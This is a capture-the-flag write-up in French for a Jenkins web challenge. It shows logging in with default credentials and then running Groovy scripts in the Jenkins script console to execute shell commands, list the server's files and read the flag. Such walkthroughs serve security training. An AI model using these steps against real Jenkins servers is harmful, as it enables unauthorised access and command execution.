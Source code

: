 ﻿  
*****  
		                     Jenkins - Web
*****
**Enoncé:** [lien de l'épreuve](http://51.91.120.156:8085)

Pour cette épreuve nous n'avons pas de consigne juste un lien qui redirige vers cette page :

![](https://lh3.googleusercontent.com/K_cihXEqyHqqt8pWcPkGQMZjNrB6__hXdgGCmzAzfB5Je5aaAc9Co01G5EMzaRl2jT0MIczKibg)

Essayons de nous authentifier avec des identifiants par défaut:

    root : root 

Ceci ne fonctionne pas essayons:  `admin : admin` 

Et bingo on s’authentifie.
La version de **Jenkins**  utilisée, c'est à dire la  [version. 2.46.1](http://jenkins-ci.org/) a une vulnérabilité datant de **2017** dont le **CVE** est le suivant: [CVE-2017-1000353](https://www.cvedetails.com/cve/CVE-2017-1000353/) reste à exploiter cette vulnérabilité.

En fouillant la plateforme, nous sommes tombé sur une [console de script](http://51.91.120.156:8085/script) permettant d'exécuter des scripts sur le serveur. Ce sera notre porte d'entrer.
Nous allons y injecter ce script groovy: 

```groovy
println "sh -c ls -al".execute().text
```
**qui nous permettra de lister les fichiers et dossiers cachés du répertoire courant.**
**Résultat:**

    bin
    boot
    dev
    docker-java-home
    etc
    home
    lib
    lib64
    media
    mnt
    opt
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var

Nous allons maintenant retrouver le flag. Listons les fichiers et dossiers contenues dans le répertoire **/var/** . Pour cela injectons ce script:
```groovy
println "ls /var/".execute().text
```
**Résultat:**
>backups
cache
jenkins_home
lib
local
lock
log
mail
opt
run
spool
tmp

Voyons ce qu'il a dans le dossier **jenkins_home**  :
```groovy
println "ls -al /var/jenkins_home/".execute().text
```
**Résultat**:

    total 136
    drwxr-xr-x  1 jenkins jenkins 4096 Nov 14 10:00 .
    drwxr-xr-x  1 root    root    4096 Apr 16  2019 ..
    -rw-r--r--  1 jenkins jenkins  220 May 15  2017 .bash_logout
    -rw-r--r--  1 jenkins jenkins 3526 May 15  2017 .bashrc
    drwxr-xr-x  3 jenkins jenkins 4096 Nov 13 09:38 .java
    -rw-r--r--  1 jenkins jenkins   43 Nov 24 07:34 .owner
    -rw-r--r--  1 jenkins jenkins  675 May 15  2017 .profile
    -rw-r--r--  1 jenkins jenkins 4547 Nov 14 10:00 config.xml
    -rw-r--r--  1 jenkins jenkins   86 Nov 13 09:38 copy_reference_file.log
    -rw-r--r--  1 jenkins jenkins   32 Nov 13 09:44 flag.txt
    -rw-r--r--  1 jenkins jenkins  159 Nov 13 13:48 hudson.model.UpdateCenter.xml
    -rw-r--r--  1 jenkins jenkins  134 Nov 13 21:42 hudson.tasks.Shell.xml
    -rw-r--r--  1 jenkins jenkins  215 Nov 13 21:42 hudson.triggers.SCMTrigger.xml
    -rw-------  1 jenkins jenkins 1712 Nov 13 09:39 identity.key.enc
    drwxr-xr-x  2 jenkins jenkins 4096 Nov 13 09:38 init.groovy.d
    -rw-r--r--  1 jenkins jenkins    6 Nov 13 13:48 jenkins.install.InstallUtil.lastExecVersion
    -rw-r--r--  1 jenkins jenkins    6 Nov 13 09:39 jenkins.install.UpgradeWizard.state
    -rw-r--r--  1 jenkins jenkins  159 Nov 13 21:42 jenkins.model.ArtifactManagerConfiguration.xml
    -rw-r--r--  1 jenkins jenkins  268 Nov 13 21:42 jenkins.model.JenkinsLocationConfiguration.xml
    drwxr-xr-x  5 jenkins jenkins 4096 Nov 13 18:37 jobs
    drwxr-xr-x  3 jenkins jenkins 4096 Nov 13 09:39 logs
    -rw-r--r--  1 jenkins jenkins  907 Nov 13 13:53 nodeMonitors.xml
    drwxr-xr-x  2 jenkins jenkins 4096 Nov 13 09:39 nodes
    drwxr-xr-x  2 jenkins jenkins 4096 Nov 13 09:38 plugins
    -rw-r--r--  1 jenkins jenkins  130 Nov 13 13:48 queue.xml.bak
    -rw-r--r--  1 jenkins jenkins   64 Nov 13 09:38 secret.key
    -rw-r--r--  1 jenkins jenkins    0 Nov 13 09:38 secret.key.not-so-secret
    drwx------  4 jenkins jenkins 4096 Nov 13 11:08 secrets
    drwxr-xr-x  2 jenkins jenkins 4096 Nov 23 13:48 updates
    drwxr-xr-x  2 jenkins jenkins 4096 Nov 13 09:39 userContent
    drwxr-xr-x  3 jenkins jenkins 4096 Nov 13 13:39 users
    drwxr-xr-x 10 jenkins jenkins 4096 Nov 13 09:38 war
    drwxr-xr-x 10 jenkins jenkins 4096 Nov 13 18:05 workspace

Une partie du mystère résolue. On peut apercevoir le fichier **flag.txt** dans la liste. Lisons maintenant son contenu en utilisant **cat**:

```groovy
println "cat /var/jenkins_home/flag.txt".execute().text
```
**Résultat:**

    CTF_ThatWasUnbreakableIThought!

Bingo enfin on a le flag : **CTF_ThatWasUnbreakableIThought!**






